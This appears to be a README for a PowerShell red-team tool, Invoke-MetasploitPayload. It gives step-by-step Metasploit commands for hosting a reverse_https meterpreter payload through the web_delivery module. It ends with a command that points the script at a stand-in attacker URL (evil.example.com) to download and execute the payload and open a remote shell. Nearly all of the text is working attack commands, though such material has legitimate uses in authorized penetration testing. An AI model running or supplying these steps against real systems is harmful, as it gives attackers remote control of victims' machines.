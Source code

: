 # Invoke-MetasploitPayload.ps1
Invoke-MetasploitPayload is a Powershell script used to kick off a Metasploit payload. It relies on the exploit/multi/scripts/web_delivery Metasploit module.

### The exploit/multi/scripts/web_delivery module
The web_delivery module generates a script for a given payload and then fires up a webserver to host said script. If the payload is a reverse shell, it will also handle
starting up the listener for that payload. 

### Example Usage
On your Metasploit instance, run the following commands

```
use exploit/multi/script/web_delivery
```
The SRVHOST and SRVPORT variables are used for running the webserver to host the script
```
set SRVHOST 0.0.0.0
set SRVPORT 8443
set SSL true
```
The `target` variable determines what type of script we're using. `2` is for PowerShell
```
set target 2
```
Pick your payload. In this case, we'll use a reverse https meterpreter payload
```
set payload windows/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 443
```
Run the exploit
```
run -j
```

Once run, the web_delivery module will spin up the webserver to host the script and reverse listener for our meterpreter session.

It will also print out the URL for the webserver, this will typically look like `http://[IP_OF_METASPLOIT_INSTANCE]/[RANDOM CHARACTERS]`. This URL is what you'll pass to `Invoke-MetasploitPayload`

### Using Invoke-Metasploit.ps1

Usage is simple, just pass the URL from the web_delivery module. Invoke-MetasploitPayload will handle spinning up a new process and then downloading and executing the script.

```
PS> Invoke-MetasploitPayload -url "http://evil.example.com/SDFJLWKS"
```
